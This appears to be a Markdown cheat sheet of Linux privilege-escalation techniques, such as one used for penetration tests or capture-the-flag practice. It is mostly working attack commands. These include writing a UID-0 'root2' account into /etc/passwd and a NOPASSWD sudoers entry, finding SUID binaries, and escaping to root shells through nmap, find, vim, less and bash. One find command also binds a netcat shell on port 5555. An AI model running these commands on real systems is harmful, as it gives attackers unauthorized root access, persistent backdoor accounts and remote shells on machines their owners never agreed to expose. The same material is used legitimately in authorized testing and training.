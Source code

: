 # Linux Privilege Escalation
## Does the User have SUDO permissions?
Check Sudo Access  
`sudo -l`

## Any writable "system" files?
```
/etc/passwd
/etc/shadow
/etc/crontab
```
## Creating password hashes for /etc/passwd  or /etc/shadow
 
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
## Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```
## Adding user to suoders file
```
user     ALL=(ALL:ALL) NOPASSWD:ALL
``` 
## SUID Based Privilge Escalation  
### Locating SUIDS
`find . -perm /4000 2>/dev/null`  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

### Exploiting SUIDs

nmap 2.02 - 5.21  
`nmap -V #version check`  

```
nmap --interactive  
nmap> !sh
```

find  
`find <file> -exec <CMD> \;`  
Escalation to root shell  
`find . -exec /bin/sh -p \; -quit`  
`find somefile -exec netcat -lvp 5555 -e /bin/sh \;`  
`find somefile -exec echo "lowprivuser ALL=(ALL) NOPASSWD:ALL" > /etc/sodoers \;`  
Vim  
```
vim /etc/shadow  
vim  
# Press ESC key  
:set shell=/bin/sh  
:shell
```

bash  
`bash -p`

less  
```
less /etc/passwd  
!/bin/sh
```
**Command reference for privilege escalation using SUIDS and SUDO**  
https://gtfobins.github.io/

## Kernel Exploits  
https://github.com/lucyoa/kernel-exploits

